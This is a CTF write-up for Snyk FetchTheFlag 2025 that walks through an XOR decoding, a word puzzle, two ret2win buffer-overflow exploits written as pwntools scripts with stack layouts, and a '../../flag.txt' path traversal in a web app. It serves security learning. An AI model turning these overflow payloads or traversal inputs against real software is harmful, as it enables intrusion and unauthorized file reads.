# Snyk FetchTheFlag 2025


WARMUP, PWN, WEB

Kickoff: February 27, 2025

Links: [https://snyk.ctf.games/](https://snyk.ctf.games/)


## 1. Zero Ex Six One (Warmup - Easy)

### 1.1. Description

> **Author**: @HuskyHacks\
> I'm XORta out of ideas for how to get the flag. Does this look like anything to you?\
> **Attachments:** _flag.txt.encry_

### 1.2. Solve Walkthrough

* Here's the _flag.txt.encry_ content file.


```txt
0x070x0d0x000x060x1a0x020x540x510x050x590x530x020x510x000x530x540x070x520x040x570x550x550x050x510x560x510x530x030x550x500x050x030x050x510x590x540x000x1c
```


* First of all, I ask to GPT, what the heck is this encrypted flag is (coz I'm beginner in RE and crypto stuffs).
* Basically, GPT said that **the flag possibly encrypted with XOR cipher**.
* Here's the solver script generated from GPT.


```python
#!/usr/bin/env python3

data = bytes([
    0x07, 0x0d, 0x00, 0x06, 0x1a, 0x02, 0x54, 0x51, 0x05, 0x59,
    0x53, 0x02, 0x51, 0x00, 0x53, 0x54, 0x07, 0x52, 0x04, 0x57,
    0x55, 0x55, 0x05, 0x51, 0x56, 0x51, 0x53, 0x03, 0x55, 0x50,
    0x05, 0x03, 0x05, 0x51, 0x59, 0x54, 0x00, 0x1c
])
print(f"Data: {data}\nLength of data: {len(data)}")

for key in range(0x20, 0x7F):
    decoded = ''.join(chr(b ^ key) for b in data)
    # Check for printable ASCII value.
    if all(32 <= ord(c) <= 126 or c == '\n' for c in decoded):
        print(f"Key {hex(key)}: {decoded}")
```


* So, we've to put the sequence of bytes into a list of bytes (_data_).
* Loop from `0x20` until `0x7E`, which is all printable ASCII characters in human readable text, such as _letters_, _numbers_, and _symbols_. The `0x7F` hex value is commonly use for obfuscate the text (`DEL`). Go to this website to see all list of ASCII tables: "[https://byte-tools.com/en/ascii](https://byte-tools.com/en/ascii)/".
* Like the name of this challenge, the printable characters is start from XOR-ing the bytes of data with `0x61` (a).
* `0x07`^ `0x61` = **f** ; `0x0d` ^ `0x61` = **l** -> can you see the flag pattern ?

<figure><figcaption><p>01_flag-pattern</p></figcaption></figure>

* The if statement inside the for loop is to filtered only readable **decoded text**, which is excluding weird characters such as `\x00`, `\xFF`, etc.
* After we run the solver script, the output is like this:

<figure><figcaption><p>02_first-flag</p></figcaption></figure>

* Notice in key `0x61` we got the flag.

### 1.3. Flag

flag{c50d82c0a25f3e644d0702b41dbd085a}

## 2. Science 100 (Warmup - Easy)

### 2.1. Description

> **Author**: @HuskyHacks
>
> Patrolling the Mojave almost makes you wish for a nuclear winter.

### 2.2. Solve Walkthrough

* Basically, we've to input all "English" words in the screen to get access granted.
* If we got the correct one, then we can continue and choose the option number **2**, which is to print the `flag.txt` file.
* Here's the flag:

<figure><figcaption><p>03_second-flag</p></figcaption></figure>

### 2.3. Flag

flag{89e575e7272b07a1d33e41e3647b3826}

## 3. Echo (PWN - Easy)

### 3.1. Description

> **Author**: @awesome10billion
>
> I made my own echo program. my own echo program.
>
> **Attachments**: _echo_

### 3.2. Solve Walkthrough

* This is an easy pwn challenge.
* A classic PWN ret2win challenge, we must hijack the control flow to **win** function.
* Check the ELF protection with `checksec`:


```bash
[*] '/home/hurtz4eva/Nextcloud/CTF/international/2025/snykCTF/pwn/Echo/echo'
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```


* Nothing protect us from ret2win attack.
* The ELF information is 64-bit and using LE (_little endian_) format.
* Let's discover list of function symbols inside the ELF binary. I'm using Ghidra in this case.

<figure><figcaption><p>04_challenge1-function-symbols</p></figcaption></figure>

* Here's the disassembly of `main` function.


```csharp
undefined8 main(EVP_PKEY_CTX *param_1)

{
  char local_88 [128]; // 0x80 bytes (HEX).
  
  init(param_1);
  puts("Give me some text and I\'ll echo it back to you: ");
  gets(local_88);
  puts(local_88);
  return 0;
}
```


* And here's the disassembly of `win` function.


```csharp
void win(void)

{
  int iVar1;
  FILE *__stream;
  char local_11;
  
  __stream = fopen("flag.txt","r");
  if (__stream != (FILE *)0x0) goto LAB_0040126a;
  puts("Please create \'flag.txt\' in this directory with your own debugging flag.");
  FUN_00401120(0);
  do {
    putchar((int)local_11);
LAB_0040126a:
    iVar1 = fgetc(__stream);
    local_11 = (char)iVar1;
  } while (local_11 != -1);
  fclose(__stream);
  return;
}
```


* Simply, we've to hijack control flow with ret2win attack, so we can start executing `win` function after `ret` main.
* Here's my exploit script for this challenge.


```python
#!/usr/bin/env python3
#filename: exploit.py

from pwn import *

context.binary = elf = ELF("./echo", checksec=0)
context.log_level = "debug"

# Prepare the payload.
win_addr = p64(elf.symbols['win'])
payload = b"A"*0x80 # --------------< Buff size.
payload += b"B"*0x8 # --------------< Old RBP.
payload += win_addr # --------------< Jump to win_addr.

# Send the payload.
is_remote = False # change to True if you want to run remotely.

if is_remote:
	io = remote("challenge.ctf.games", 31084)
else:
	io = elf.process()

io.sendline(payload)
io.interactive()
```


* Create a sample `flag.txt` file to run the exploit script locally. If it success, then we can run the exploit script remotely. Just change the `is_remote` variable to `True`.
* And we got the flag.

<figure><figcaption><p>05_third-flag</p></figcaption></figure>

### 3.3. Flag

flag{4f4293237e37d06d733772a087299f17}

## 4. Additional Information Needed (PWN - Medium)

### 4.1. Description

> **Author**: @Soups71\
> Another binary exploit challenge, but this time it's gonna take some more information for me to give you what you want.\
> **Attachments**: _challenge.elf_

### 4.2. Solve Walkthrough

* This is a medium pwn challenge and I solve it after the challenge ended
* Same as `Echo` challenge before, we've to ret2win to `getFlag` function.
* First, let's check the ELF protection.


```bash
[*] '/home/hurtz4eva/Nextcloud/CTF/international/2025/snykCTF/pwn/Additional_Information_Needed/challenge.elf'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```


* Hmm, this is a **32-bit ELF binary** and **no protection at all**.
* Let's discover all function symbols using Ghidra.

<figure><figcaption><p>06_challenge2-function-symbols</p></figcaption></figure>

* Here's the disassembly of `main` function.


```csharp
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  char local_28 [32]; // 0x24 (HEX)
  
  buffer_init();
  puts("Welcome to this simple pwn challenge...");
  puts("All you have to do is make a call to the `getFlag()` function. That\'s it!");
  gets(local_28);
  return 0;
}
```


* And here's the disassembly of `getFlag` function.


```csharp
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 getFlag(int param_1,int param_2)

{
  undefined4 uVar1;
  char local_3c [48];
  FILE *local_c;

  // We've to pass this if statement!.
  if (param_1 * param_2 == 0x23) {
    local_c = fopen("flag.txt","r");
    if (local_c != (FILE *)0x0) {
      fgets(local_3c,0x30,local_c);
      puts(local_3c);
      fclose(local_c);
    }
    uVar1 = 0;
  }
  else {
    puts("Nope!");
    uVar1 = 0xffffffff;
  }
  return uVar1;
}
```


* In the disassembly of `getFlag` function, we've to pass if condition with multiply the value of `param_1` and `param_2`, so it will be equal to `0x23` (or 35 in decimal). We can do simple math, for example: `param_1` = **7** and `param_2` = **5**, so the output will be **35**.
* Here's my exploit script for this challenge.


```python
#!/usr/bin/env python3
#filename: exploit.py

"""INFO:
- The binary is x86 (32 bit) architecture.
- The buffer size is 0x24 (36 Bytes) + 0x4 (4 Bytes) for EBP = 40 Bytes.
- All we've to do is just return to `getFlag` function.
"""

from pwn import *

context.binary = elf = ELF("./challenge.elf", checksec=0)
context.log_level = "debug"

# 1. Prepare the payload.
win_addr = p32(elf.symbols['getFlag'])

payload = b"A"*0x24 #----------------< Junk.
payload += b"B"*0x4 #----------------< Old EBP.
payload += win_addr #----------------< Buffer address.
payload += b"C"*0x4 #----------------< Stack alignment.
payload += p32(0x7) #----------------< Param 1 = 7.
payload += p32(0x5) #----------------< Param 2 = 5.

"""Payload from p0np0n
# Link: https://www.youtube.com/watch?v=8wn7ue68vmE
payload = b"A"*40
payload += win_addr
payload += p32(0x41)
payload += p32(1) * 1
payload += p32(0x23)
"""

# Because all function args is placed into the stack.
# [     5     ] = function arg2 / ebp + 0xc
# [     7     ] = function arg1 / ebp + 0x8
# [ alignment ] = stack alignment / caller function
# [    ret    ] = win_addr / getFlag / ebp + 0x4
# [  old rbp  ] = 0x4
# [   buffer  ] = 0x24 / ebp - 0x4

# 2. Send the payload
is_remote = False # change to True if you want to run remotely.

if is_remote:
    io = remote("challenge.ctf.games", 30300)
else:
    io = elf.process()

io.sendline(payload)
io.interactive()
```


* Create a sample `flag.txt` file in your folder to execute the exploit script locally. If it success, then we can run the exploit script remotely. Just change the `is_remote` variable to `True`.
* And we got the flag.

<figure><figcaption><p>07_fourth-flag</p></figcaption></figure>

### 4.3. Flag

flag{8e9e2e4ec228db4207791e0a534716c3}

## 5. TimeOff (Web - Easy)

### 5.1. Description

> **Author**: @HuskyHacks\
>
>
> TimeOff is an early build for our upcoming line of business application that will help us manage our employee's PTO requests. Please give it a thorough security test and let us know if you find anything. To set you up for success, our devs have given you the full source code and a development build of the current app. Feel free to build a local instance for your security test. If you find anything exploitable, prove it by capturing the flag.txt file on the live instance!\
>
>
> The challenge source code is available in the challenge.zip folder. The password is `snyk-ftf-2025`.\
> \
> Use the Dockerfile to run a local instance of the challenge! To build and the container, unzip the contents of the challenge.zip file and run: `docker build -t [challenge_name] . && docker run -it -p 3000:3000 [challenge_name]`\
>
>
> **Credentials**:
>
> * admin@example.com:admin123
> * user@example.com:user123

### 5.2. Solve Walkthrough

* This is an easy web challenge and I solve it after the challenge ended.
* Execute below command to run the challenge locally.


```bash
docker build -t timeoff:latest . && docker run -d --name "timeoff_challenge" -p 3000:3000 timeoff:latest
```


* After the challenge is up, first thing to do is login using given credentials from the challenge. I try to login directly as an `admin`.
* Too many option there after we logged in, but when I try to upload sample `flag.txt` file, the download file feature is available.
* When I download the file that I just uploaded, I just think that maybe the vulnerability is happen in `name` of the uploaded file. No sanitize on the input, so I can do like `../` attack to read the arbitrary file inside the target machine (in this case is to read the `flag.txt` file).
* Move on to the next step. We need to intercept after submit a new timeoff request. I try to upload sample `flag.txt` file.

<figure><figcaption><p>08_path-traversal-locally</p></figcaption></figure>

* As you can see, the filename of uploaded file is changed to `../../flag.txt`. If we try to download the file, then we got the real flag from container.

<figure><figcaption><p>09_get-flag-locally</p></figcaption></figure>

* Now, we can perform this Path Traversal attack on the remote target machine.

<figure><figcaption><p>10_path-traversal-remotely</p></figcaption></figure>

* After we submit new timeoff request, we can download the real flag in the browser.

<figure><figcaption><p>11_get-flag-remotely</p></figcaption></figure>

* You can also try to scan the source code with `snyk` CLI as the hint says. Here's the output after we scan the given source code.


```bash
snyk code test
--------------
# Output:
# ... output omitted ...
 ✗ [High] Path Traversal 
   Path: app/app/controllers/files_controller.rb, line 6 
   Info: Unsanitized input from "an HTTP parameter" flows into "File.read", where it is used as a path. This may result in a Path Traversal vulnerability and allow an attacker to access arbitrary files.
# ... output omitted ...
```


### 5.3. Flag

flag{52948d88ee74b9bdab130c35c88bd406}

***

## Other Writeups

* [https://rustybladez.medium.com/snyk-fetch-the-flag-2025-ctf-writeups-7571afde5a2c](https://rustybladez.medium.com/snyk-fetch-the-flag-2025-ctf-writeups-7571afde5a2c)
* [https://github.com/3xpl01tCTF/SnykCTF-2024-Writeups](https://github.com/3xpl01tCTF/SnykCTF-2024-Writeups)

***

**Tags**: #ctf, #web-exploitation, #pwn
